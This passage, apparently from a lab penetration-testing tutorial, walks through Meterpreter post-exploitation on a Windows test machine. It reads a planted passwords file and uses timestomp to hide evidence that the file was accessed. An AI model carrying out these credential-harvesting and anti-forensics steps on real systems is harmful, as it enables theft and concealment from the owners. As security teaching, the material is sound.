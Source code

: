 Go to the folder that contains the **passwords.txt** that you created before, using `cd`(change directory), `ls`(list), `pwd`(working directory) commands.
```
meterpreter > cd Desktop 
meterpreter > ls
Listing: C:\Users\dummy\Desktop
===============================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
100777/rwxrwxrwx  6646896  fil   2018-12-19 16:48:13 -0500  ProxySwitcher.exe
100777/rwxrwxrwx  73802    fil   2018-12-18 15:45:13 -0500  T3st.exe
100666/rw-rw-rw-  282      fil   2018-12-13 14:38:05 -0500  desktop.ini
100666/rw-rw-rw-  173      fil   2018-12-20 12:28:02 -0500  passwords.txt.txt
```

### After you find the file, use the `cat` command to read the contents of the text file:
```
meterpreter > cat passwords.txt.txt 
amex: bobby12 / qwerty123
paypal: bobby_123 / password123
twitter: b0bby1337 / password123
reddit: b0bby1337 / password123
google: bobby_31337@gmail.com / password1337
```

### The MACE Attributes (Modified-Accessed-Created-Entry)

While performing post exploitation activities, a hacker tries to access files to read their contents. Upon doing so, the [MACE attributes](https://pentestlab.blog/tag/mace/) change immediately, which gives and indication to the file user/owner that someone has read or modified the information.

To leave no hint of these MACE attributes, use the **timestomp** command to change the attributes as you wish after accessing a file.

TO view the mace attributes of **passwords.txt**, type:

`timestomp passwords.txt -v`

This command displays the created time, accessed time, modified time, and entry modified time, as shown below:
```
meterpreter > timestomp passwords.txt.txt -v
[*] Showing MACE attributes for passwords.txt.txt
Modified      : 2018-12-20 12:29:25 -0500
Accessed      : 2018-12-20 12:28:02 -0500
Created       : 2018-12-20 12:28:02 -0500
Entry Modified: 2018-12-20 12:29:25 -0500
```

### Download a File

`download <filename>`
